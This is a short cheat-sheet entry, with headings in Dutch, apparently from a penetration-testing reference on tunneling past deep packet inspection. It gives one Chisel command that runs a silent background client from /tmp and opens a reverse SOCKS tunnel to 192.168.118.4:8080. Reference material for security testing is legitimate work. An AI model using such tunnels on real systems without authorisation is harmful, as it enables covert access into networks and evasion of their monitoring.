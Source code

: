# 20 Tunneling DPI — Entry 7

## Categorie

Chisel

## Commando

```
/tmp/chisel client 192.168.118.4:8080 R:socks > /dev/null 2>&1 &
```

## Omschrijving

running chisel client

## Voorbeeld

_(empty)_

## Opmerkingen

_(empty)_

